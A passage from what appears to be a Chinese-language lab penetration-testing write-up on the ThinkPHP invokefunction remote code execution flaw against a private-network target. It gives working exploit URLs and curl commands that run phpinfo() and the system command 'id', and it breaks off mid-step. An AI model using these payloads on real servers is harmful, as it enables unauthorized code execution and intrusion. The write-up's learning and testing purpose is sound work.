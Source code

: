#### 3. 漏洞分析与利用

此漏洞源于 ThinkPHP 框架对控制器名称的解析存在缺陷，允许攻击者通过构造特定的 URL 来调用任意类的任意方法，从而导致远程代码执行。

**重要提示：** 在使用 `curl` 执行以下 Payload 时，如果 URL 中包含方括号 `[` 和 `]` (例如 `vars[0]` 或 `vars[1][]`)，直接使用可能会导致 `curl: (3) bad range in URL` 错误。这是因为方括号在 URL 中是特殊字符，需要进行百分号编码。`[` 应编码为 `%5B`，`]` 应编码为 `%5D`。建议将整个 URL 用单引号 `'` 包裹，以避免 shell 对特殊字符 (如 `&`, `\`) 的额外转义。

* **Payload 1: 执行 `phpinfo()` (验证漏洞存在性)**
  构造如下 URL (已进行方括号编码)：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
  使用 `curl` 或浏览器访问：

  ```bash
  curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1'
  ```

  ![1748020421170](image/第一层两靶标攻击与利用检测/1748020421170.png)
  如图,响应中包含 PHP 的配置信息（`phpinfo()` 的输出），则表明漏洞存在且可利用。
* **Payload 2: 执行系统命令 (例如 `id`)**
  构造 URL 以执行 `id` 命令 (已进行方括号编码)：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=id`
  使用 `curl` 执行：
